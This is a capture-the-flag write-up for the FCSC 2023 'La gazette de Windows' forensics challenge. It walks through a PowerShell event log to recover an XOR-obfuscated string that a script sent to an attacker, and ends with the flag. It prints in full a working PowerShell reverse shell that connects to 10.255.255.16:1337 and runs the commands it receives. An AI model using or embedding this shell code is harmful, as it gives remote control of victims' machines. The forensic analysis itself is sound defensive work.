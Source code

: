 # La gazette de Windows
# Original challenge 🇫🇷
Il semblerait qu'un utilisateur exécute des scripts Powershell suspects sur sa machine. Heureusement cette machine est journalisée et nous avons pu récupérer le journal d'évènements Powershell. Retrouvez ce qui a été envoyé à l'attaquant.
# Translated challenge 🇺🇸
It looks like a user is running suspicious Powershell scripts on their machine. Fortunately this machine is logged and we were able to recover the Powershell event log. Find what was sent to the attacker.
# Solution
We are dealing with an .evtx file, we can use the Windows Event Viewer to explore it.

Search for Windows Event Viewer and open it.

Open the Microsoft-Windows-PowerShell4Operational.evtx file.

We have 9 events of which one is a warning

By exploring these 9 events, we can notice that the user created some script blocks.

The most interesting one is 
```
do {
    Start-Sleep -Seconds 1
     try{
        $TCPClient = New-Object Net.Sockets.TCPClient('10.255.255.16', 1337)
    } catch {}
} until ($TCPClient.Connected)
$NetworkStream = $TCPClient.GetStream()
$StreamWriter = New-Object IO.StreamWriter($NetworkStream)
function WriteToStream ($String) {
    [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
    $StreamWriter.Write($String + 'SHELL> ')
    $StreamWriter.Flush()
}
$l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
$s = ""
for ($i = 0; $i -lt 72; $i++) {
    $s += [char]([int]$l[$i] -bxor $i)
}
WriteToStream $s
while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {
    $Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1)
    $Output = try {
            Invoke-Expression $Command 2>&1 | Out-String
        } catch {
            $_ | Out-String
        }
    WriteToStream ($Output)
}
$StreamWriter.Close()
```

1- This PowerShell script block creates a TCP client that connects to the IP address '10.255.255.16' on port 1337. It waits in a loop until the connection is successful and once it is, it retrieves a network stream and creates a stream writer to send data to the connected endpoint.

2- The script block also defines a function called "WriteToStream" which takes a string as input and sends it to the connected endpoint.

3- It then creates a byte array and uses a loop to populate it with values derived from the hexadecimal values in the variable "$l". The loop XORs each value with its index to derive the original value, and concatenates these values into a string which is passed to the "WriteToStream" function.

4- The script block then enters another loop, where it waits to read data from the network stream. When data is received, it converts the received bytes into a string, executes the string as a PowerShell command, captures any output, and sends the output back to the connected endpoint using the "WriteToStream" function.

5- Finally, the script block closes the stream writer. This script block could be part of a larger script implementing a remote command shell.

We don't need to have the server at the IP address available to reconstruct what was really sent.

We can skip the connexion part and create on powershell a script block with only the interesting part of the code as the following :
```
$ScriptBlock = {

    $StreamWriter = New-Object IO.StreamWriter($NetworkStream)
    function WriteToStream ($String) {
        [byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0}
        $StreamWriter.Write($String + 'SHELL> ')
        $StreamWriter.Flush()
    }
    $l = 0x46, 0x42, 0x51, 0x40, 0x7F, 0x3C, 0x3E, 0x64, 0x31, 0x31, 0x6E, 0x32, 0x34, 0x68, 0x3B, 0x6E, 0x25, 0x25, 0x24, 0x77, 0x77, 0x73, 0x20, 0x75, 0x29, 0x7C, 0x7B, 0x2D, 0x79, 0x29, 0x29, 0x29, 0x10, 0x13, 0x1B, 0x14, 0x16, 0x40, 0x47, 0x16, 0x4B, 0x4C, 0x13, 0x4A, 0x48, 0x1A, 0x1C, 0x19, 0x2, 0x5, 0x4, 0x7, 0x2, 0x5, 0x2, 0x0, 0xD, 0xA, 0x59, 0xF, 0x5A, 0xA, 0x7, 0x5D, 0x73, 0x20, 0x20, 0x27, 0x77, 0x38, 0x4B, 0x4D
    $s = ""
    for ($i = 0; $i -lt 72; $i++) {
        $s += [char]([int]$l[$i] -bxor $i)
    }
	Write-Output $s
    WriteToStream $s

    $StreamWriter.Close()
}
Invoke-Command -ScriptBlock $ScriptBlock
```
![screenshot](https://github.com/Alabouchsalaheddine/FCSC2023_WRITEUPS/assets/26192792/784347f3-16f1-4c9a-b892-34d97d7779eb)

After the execution, we have the flag : FCSC{98c98d98e5a546dcf6b1ea6e47602972ea1ce9ad7262464604753c4f79b3abd3}                                                  
